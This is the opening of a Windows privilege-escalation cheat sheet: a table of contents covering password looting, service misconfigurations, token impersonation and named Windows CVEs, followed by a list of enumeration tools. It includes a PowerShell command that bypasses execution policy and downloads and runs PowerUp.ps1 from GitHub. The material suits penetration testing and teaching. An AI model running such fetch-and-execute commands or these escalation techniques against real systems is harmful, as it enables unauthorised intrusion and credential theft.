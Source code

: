 # Windows - Privilege Escalation

By https://github.com/swisskyrepo

## Summary

* [Tools](#tools)
* [Windows Version and Configuration](#windows-version-and-configuration)
* [User Enumeration](#user-enumeration)
* [Network Enumeration](#network-enumeration)
* [AppLocker Enumeration](#applocker-enumeration)
* [EoP - Looting for passwords](#eop---looting-for-passwords)
    * [SAM and SYSTEM files](#sam-and-system-files)
    * [Search for file contents](#search-for-file-contents)
    * [Search for a file with a certain filename](#search-for-a-file-with-a-certain-filename)
    * [Search the registry for key names and passwords](#search-the-registry-for-key-names-and-passwords)
    * [Passwords in unattend.xml](#passwords-in-unattendxml)
    * [Wifi passwords](#wifi-passwords)
    * [Passwords stored in services](#passwords-stored-in-services)
    * [Powershell history](#powershell-history)
* [EoP - Processes Enumeration and Tasks](#eop---processes-enumeration-and-tasks)
* [EoP - Incorrect permissions in services](#eop---incorrect-permissions-in-services)
* [EoP - Windows Subsystem for Linux (WSL)](#eop---windows-subsystem-for-linux-wsl)
* [EoP - Unquoted Service Paths](#eop---unquoted-service-paths)
* [EoP - Named Pipes](#eop---named-pipes)
* [EoP - Kernel Exploitation](#eop---kernel-exploitation)
* [EoP - AlwaysInstallElevated](#eop---alwaysinstallelevated)
* [EoP - Insecure GUI apps](#eop---insecure-gui-apps)
* [EoP - Runas](#eop---runas)
* [EoP - From local administrator to NT SYSTEM](#eop---from-local-administrator-to-nt-system)
* [EoP - Living Off The Land Binaries and Scripts](#eop---living-off-the-land-binaries-and-scripts)
* [EoP - Impersonation Privileges](#eop---impersonation-privileges)
  * [Meterpreter getsystem and alternatives](#meterpreter-getsystem-and-alternatives)
  * [RottenPotato (Token Impersonation)](#rottenpotato-token-impersonation)
  * [Juicy Potato (abusing the golden privileges)](#juicy-potato-abusing-the-golden-privileges)
* [EoP - Common Vulnerabilities and Exposures](#eop---common-vulnerabilities-and-exposure)
  * [MS08-067 (NetAPI)](#ms08-067-netapi)
  * [MS10-015 (KiTrap0D)](#ms10-015-kitrap0d---microsoft-windows-nt2000--2003--2008--xp--vista--7)
  * [MS11-080 (adf.sys)](#ms11-080-afd.sys---microsoft-windows-xp-2003)
  * [MS15-051 (Client Copy Image)](#ms15-051---microsoft-windows-2003--2008--7--8--2012)
  * [MS16-032](#ms16-032---microsoft-windows-7--10--2008--2012-r2-x86x64)
  * [MS17-010 (Eternal Blue)](#ms17-010-eternal-blue)
  * [CVE-2019-1388](#cve-2019-1388)
* [References](#references)

## Tools

- [PowerSploit's PowerUp](https://github.com/PowerShellMafia/PowerSploit)
    ```powershell
    powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
    ```
- [Watson - Watson is a (.NET 2.0 compliant) C# implementation of Sherlock](https://github.com/rasta-mouse/Watson)
- [(Deprecated) Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities](https://github.com/rasta-mouse/Sherlock)
    ```powershell
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File Sherlock.ps1
    ```
- [BeRoot - Privilege Escalation Project - Windows / Linux / Mac](https://github.com/AlessandroZ/BeRoot)